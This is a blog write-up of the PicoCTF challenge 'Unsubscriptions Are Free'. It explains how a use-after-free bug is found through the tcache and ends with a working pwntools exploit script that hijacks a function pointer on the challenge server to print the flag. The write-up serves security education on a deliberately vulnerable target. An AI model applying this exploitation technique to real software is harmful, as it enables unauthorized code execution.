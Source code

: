 << [Back to Home](https://papadoxie.github.io)

# Unsubscriptions Are Free
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

2 files are provided to us for the challenge and the address
to the server is also provided.

Let's download the files and take a look at the source

## Analysis

Immediately we see a function that prints the flag  

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

Upon further analysis we can see that this function is not being called anywhere but there is another suspicious function

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

Running the binary we can see this prints out the address of the function that will print the flag

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Let's explore further to see how we can use this information  
  
The main function is pretty straightforward as well as the printMenu function

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

<img	src="Analysis4.png"
		alt="Challenge Description"
/>

The processInput function handles the processing of all the user input

<img	src="Analysis5.png"
		alt="Challenge Description"
/>

doProcess just calls the function pointed to by the function pointer passed to it

<img	src="Analysis6.png"
		alt="Challenge Description"
/>

Now let's take a look at the remaining functions

<img	src="Analysis7.png"
		alt="Challenge Description"
/>

There is a pointer being freed here and this function can be called multiple times  
This seems like a bug. Let's test it

<img	src="Analysis8.png"
		alt="Challenge Description"
/>

This looks like a Use After Free bug. Let's try to find out if we can write to this allocation somehow

<img	src="Analysis9.png"
		alt="Challenge Description"
/>

Here we have it. A function that allocates an 8 byte buffer and lets us write to it  
Now what will happen is
- We will free the "user" buffer
- It will go into the tcache
- We will allocate a buffer
- This allocation will come from the tcache and it'll point to the same place "user" was pointing to
- We will write the address of the "hahaexploitgobrr" function to this buffer
- We will free the "user" buffer again to call the function

Let's try this out

## Exploitation

Here's the exploit script

```py
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 48259)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

It worked! We got the flag